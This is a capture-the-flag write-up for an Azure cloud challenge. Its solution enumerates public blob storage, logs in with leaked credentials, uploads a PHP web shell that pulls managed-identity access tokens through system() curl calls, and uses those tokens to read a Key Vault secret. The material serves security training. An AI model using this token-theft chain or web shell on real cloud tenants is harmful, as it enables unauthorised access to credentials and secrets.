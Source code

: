 # CloudMe
**Category:** Cloud

**Author:** @r3n_hat

## Description

Some secrets are stored in the Cloud.
Make sure to secure your vault.
https://gfez94skznma90za12sk93xm.blob.core.windows.net

## Rules
* Don't perform Fuzzing, port scanning or run vulnerability assessment tools.


## Solution
<details>
 <summary>Reveal Spoiler</summary>


Visit https://gfez94skznma90za12sk93xm.blob.core.windows.net
Then Import-Module MicroBurst and start AzureBlobs enumeration:

```
Import-Module .\MicroBurst.psm1

Invoke-EnumerateAzureBlobs -Base gfez94skznma90za12sk93xm
```

Then navigate to: https://gfez94skznma90za12sk93xm.blob.core.windows.net/storageaccount?restype=container&comp=list or download the txt file https://gfez94skznma90za12sk93xm.blob.core.windows.net/storageaccount/gjkdegtdfgkjnfdkgkjhdbaenhfksljdgfhkjshbgfkjsgkjfdskjhfdgf.txt

Use the credentials found on mysecrets.txt, open your browser and change your User-Agent to Android or iOS.
Then login to: https://portal.azure.com and navigate to App Service. Find and open the URL https://jduhsbjkixzeaszaxncmakalacxtrqplza449fis2zaw31mkf873dz.azurewebsites.net/

Scroll down and upload the below php file:

```
<?php 

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

system('curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.net/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

system('curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>
```

Use the access tokens and login using Connect-AzAccount:

```
Connect-AzAccount -AccessToken $mgmtToken -GraphAccessToken $graph -KeyVaultAccessToken $keyvault -AccountId $AccountId
```

Then Read the flag from the KeyVault:

```
Get-AzKeyVaultSecret -VaultName ccsc-cft-2022-secret
Get-AzKeyVaultSecret -VaultName ccsc-cft-2022-secret -Name flag -AsPlainText | fl *

```

Flag: CCSC{Y0u_Sh0uld_N3v3r_Store_Passw0rds_In_Th3_CLOUD}

</details>
